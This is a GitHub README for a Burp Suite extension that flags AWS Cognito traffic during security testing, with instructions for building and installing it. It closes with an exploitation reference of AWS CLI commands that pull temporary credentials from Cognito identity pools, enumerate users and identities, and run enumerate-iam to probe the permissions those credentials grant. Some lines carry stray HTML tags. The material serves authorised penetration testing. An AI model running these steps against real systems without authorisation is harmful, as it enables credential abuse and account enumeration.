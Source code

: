# Burp AWS Cognito (Using the Montoya API)

__Author: Nick Coblentz__, https://www.virtuesecurity.com

This extension helps identify key information from requests to AWS Cognito and provides templates for exploiting several known vulnerabilities. Features include:
- Proxy History: Adding comments to Burp Proxy History to reflect the Cognito Method found in `X-Amz-Target: AWSCognitoIdentityProviderService.RevokeToken`
- Passive Scan Issues:
  - Log URLs observed matching `^cognito-(?:identity|idp)(?:-fips)?.[^\.]+.amazonaws.com$`
  - Log Identity Pool IDs observed in requests and suggestions for exploiting it (see below)
  - Log Client IDs observed in requests
  - Log custom user attributes found in the `idToken` or `GetUser` response
  - Log `InitiateAuth` requests and suggest request templates for `SignUp` and `UpdateUserAttributes` 
  - Log `AWSCognitoIdentityService.GetCredentialsForIdentity` requests containing temporary credentials

## Download the Plugin
See the packages section on the right hand side of this Github Repo. Look for `burpmontoyacognito-x.y.z-fatjar.jar`.
## How to build this plugin
### Setup a GitHub Access Token
#### Why
Even though the Utility Package referenced by the build is public, Github still requires you to have an access token

Here's the relevant content in my `build.gradle.kts` file
```kotlin
repositories {
    mavenCentral()
    maven {
        url = uri("https://maven.pkg.github.com/ncoblentz/BurpMontoyaUtilities")
        credentials {
            username = project.findProperty("gpr.user") as String? ?: System.getenv("GHUSERNAME")
            password = project.findProperty("gpr.key") as String? ?: System.getenv("GHTOKEN")
        }
    }
}
```

```kotlin
dependencies {
    implementation("com.nickcoblentz.montoya.libraries:burpmontoyautilities:+")
```
#### What to do

1. Log into your personal github account and create an access token that can "Read Packages"
2. `export GHUSERNAME="yourusernamehere"`
3. `export GHTOKEN="youraccestokenhere"`

### Command-Line
```bash
$ ./gradlew fatJar
```
### InteliJ
1. Open the project in Intellij
2. Open the Gradle sidebar on the right hand side
3. Choose Tasks -> Other -> fatJar

## How to add this plugin to Burp
1. Open Burp Suite
2. Go to Extensions -> Installed -> Add
    - Extension Type: Java
    - Extension file: build/libs/burpmontoyacognito-1.0-SNAPSHOT-fatjar.jar

## Identity Pool Exploitation Reference

```bash
$ export AWS_DEFAULT_REGION="regionhere"
$ export AWS_IDENTITY_POOL_ID="identitypoolidhere"
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID #anonymous attempt
$ #idtoken is found after logging in with a normal user to AWS Cognito as part of the normal application flow 
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvaluehere #authenticated, Produces an IdentityId (use below)
$ export AWS_IDENTITY_ID="valuefromabove"
$ aws cognito-identity get-credentials-for-identity --identity-id $AWS_IDENTITY_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvalueherefrominitauthresponse # Produces SessionToken, SecretKey, SecretKey
$ export AWS_ACCESS_KEY_ID="...";export AWS_SECRET_ACCESS_KEY="...";export AWS_SESSION_TOKEN="..."
$ aws sts get-caller-identity #check what additional roles this token has
$ aws cognito-identity describe-identity --identity-id $AWS_IDENTITY_ID</code></li>
$ aws cognito-identity describe-identity-pool --identity-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity list-identity-pools --max-results 100</code></li>
$ aws cognito-identity list-identities --identity-pool-id $AWS_IDENTITY_POOL_ID --max-results 100</code></li>
$ aws cognito-idp list-users --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-idp admin-list-devices --username test1 --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity get-open-id-token --identity-id $AWS_IDENTITY_ID --no-sign</code> and <code>aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign #Basic Flow Enabled?
$ # see https://github.com/andresriancho/enumerate-iam/pull/15/commits/77ad5b41216e3b5f1511d0c385da8cd5984c2d3c to prevent it from getting stuck
$ git clone https://github.com/andresriancho/enumerate-iam.git && cd enumerate-iam && pip install -r requirements.txt
$ ./enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID --secret-key $AWS_SECRET_ACCESS_KEY --session-token $AWS_SESSION_TOKEN --region $AWS_DEFAULT_REGION          
```
